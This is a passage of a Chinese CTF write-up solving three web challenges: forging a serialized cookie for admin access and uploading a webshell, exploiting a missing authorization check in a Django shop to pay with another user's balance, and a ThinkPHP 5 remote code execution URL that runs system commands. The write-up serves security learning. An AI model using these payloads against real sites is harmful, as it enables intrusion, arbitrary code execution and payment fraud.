 将`Cookie Cib_security`的value修改为`a:3:{s:2:"id";s:1:"1";s:4:"name";s:5:"admin";s:4:"sign";s:32:"6c5de1b510e8bdd0bc40eff99dcd03f8";}`即可获得管理员权限

接着发现页面存在Upload目录，进入后要求上传一个Webshell，又是一个文件上传漏洞，这里我们按照题1 的步骤上传，但是需要改后缀名为`.pht`，然后和题1一样，使用菜刀连接，读取flag



***



#### ezshop

进入题目，是一个商店，注册新用户发现我们有300积分，但是买flag需要888积分

接着我们下载题目给的压缩包，发现是网站的源代码，为`Python Django`框架，审计代码后在`/ezshop/payment/views.py`发现问题

![](https://upload-images.jianshu.io/upload_images/11356161-f43d5015460116a8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这里接收到支付请求的逻辑为：

+ 查验签名是否正确
+ 调用`get_object_or_404`函数获取订单对象、商品对象、用户对象（以用户ID为参数）
+ 依次检查订单状态、商品状态、用户积分

而最重要的一点，它没有检查用户权限，所以我们可以利用这个漏洞来越权发起请求，即用别人的账户来支付我们的订单

但我们不知道谁的账户里有足够的钱来帮我们完成支付，所以我们查看网站代码压缩包里的数据库文件

![](https://upload-images.jianshu.io/upload_images/11356161-6fd105246e4e82af.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

看到id为16的用户账户里有30000￥

故我们创建订单

![](https://upload-images.jianshu.io/upload_images/11356161-57ea06361b7f73bf.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

接着点击确认支付并开启BP抓包，由源码里我们知签名的构造是将密钥与POST请求请求体拼接后进行hash，

这里直接读取密钥文件会更好，因为密钥结尾有一个换行符

![](https://upload-images.jianshu.io/upload_images/11356161-9f85297923ae4abb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

获取签名后填入请求的查询字段，发起请求：

![](https://upload-images.jianshu.io/upload_images/11356161-d93a72d9db60861f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

看到订单成功支付，这时打开题目网站，查看商品flag



***

#### tp5

这是这几天爆出的ThinkPHP框架的CVE，可以看该[文章](https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce)

访问`http://219.219.61.234:10005/public/?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=xxx&vars[1][]=xxx`即可执行任意代码

`http://219.219.61.234:10005/public/?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`
